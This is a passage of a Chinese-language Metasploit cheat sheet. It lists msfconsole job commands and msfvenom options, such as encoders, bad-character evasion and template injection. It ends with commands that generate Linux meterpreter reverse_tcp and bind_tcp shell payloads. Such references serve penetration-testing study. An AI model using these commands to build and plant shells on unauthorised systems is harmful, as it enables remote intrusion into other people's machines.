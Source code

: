 ```shell
    jobs          查看目前存在哪些任务
    kill          结束任务
    rename_job    修改任务名

Resource Script Commands
========================

    Command       Description
    -------       -----------
    makerc        保存从开始到文件输入的命令
    resource      运行存储在文件中的命令
```

## msfvenom

作用：生成木马文件

- **msfvenom命令行选项**

```shell
-p, --payload    <payload>       指定需要使用的payload(攻击荷载)
-l, --list       [module_type]   列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all
-n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
-f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder    [encoder]       指定需要使用的encoder（编码器）
-a, --arch       <architecture>  指定payload的目标架构
--platform   <platform>      指定payload的目标平台
-s, --space      <length>        设定有效攻击荷载的最大长度
-b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
-i, --iterations <count>         指定payload的编码次数
-c, --add-code   <path>          指定一个附加的win32 shellcode文件
-x, --template   <path>          指定一个自定义的可执行文件作为模板
-k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
--payload-options            列举payload的标准选项
-o, --out   <path>               保存payload
-v, --var-name <name>            指定一个自定义的变量，以确定输出格式
--shellest                   最小化生成payload
-h, --help                       查看帮助选项
--help-formats               查看msf支持的输出格式列表
```

### 基础payload

- **命令格式**

```shell
msfvenom -p <payload> <payload options> -f <format> -o <path>
```

- **Linux**

```shell
反向连接：
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
正向连接：
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
